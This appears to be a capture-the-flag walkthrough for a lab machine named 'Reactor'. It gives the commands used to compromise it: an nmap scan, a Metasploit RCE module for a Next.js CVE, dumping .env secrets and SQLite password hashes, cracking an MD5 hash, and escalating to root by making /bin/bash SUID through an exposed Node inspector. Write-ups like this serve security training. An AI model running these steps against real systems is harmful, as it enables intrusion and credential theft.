



Reactor
1. Reconnaissance
Ports Scan
nmap -sS -sCV -T4 -oN nmap-result.txt -oX nmap-result.xml <target-ip>Open Ports:
- 22/tcp – SSH (OpenSSH 9.6p1 Ubuntu)
- 3000/tcp – HTTP (Next.js / React app)
💡 Info
Port 3000 serves a Next.js application. Wappalyzer reports Next.js 15.0.3, which is in scope for React2Shell (CVE-2025-55182)

[image: Wappalyzer / Next.js 15.0.3]'">2. Exploitation
React2Shell via Metasploit
Use the public Metasploit module for CVE-2025-55182 against the Next.js service on port 3000.
sudo msfdb init && msfconsole
search cve 2025 55182
use exploit/multi/http/react2shell_unauth_rce_cve_2025_55182
set rhost <target-ip>
set lhost tun0
set rport 3000
run
⚠️ Foothold
After RCE, inspect the application root for a
.env file and an SQLite database holding user password hashes.
Extract Credentials from SQLite
cat .env
sqlite3 /opt/reactor-app/reactor.db ".tables"
sqlite3 /opt/reactor-app/reactor.db "SELECT * FROM users;"
[image: SQLite users / engineer hash]'">Crack the engineer MD5 hash with John, then SSH in:
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
ssh engineer@<target-ip>
cat user.txt3. Privilege Escalation
Node Inspect as Root
A process is running with root privileges and exposing the Node.js inspector:
ps aux | grep inspect
[image: ps aux | grep inspect]'">Forward the inspector port over SSH:
ssh -L 9229:127.0.0.1:9229 engineer@<target-ip>In Chrome, open chrome://inspect, attach to the target, and run:
require('child_process').execSync('chmod u+s /bin/bash')
⚠️ Abuse
The inspector runs as root, so this plants a SUID bit on
/bin/bash.
Root Shell
/bin/bash -p
whoami
cat /root/root.txt4. Flag Paths
- User flag:
/home/engineer/user.txt - Root flag:
/root/root.txt
✅ Lessons Learned
Unauthenticated RCE in a modern Next.js stack (React2Shell) dropped a shell into the app environment where secrets and SQLite hashes lived. Always check local services after foothold — a root-owned Node inspector on
127.0.0.1:9229 turned into trivial SUID escalation via Chrome DevTools. Keep dependency versions patched and never expose debug/inspect ports.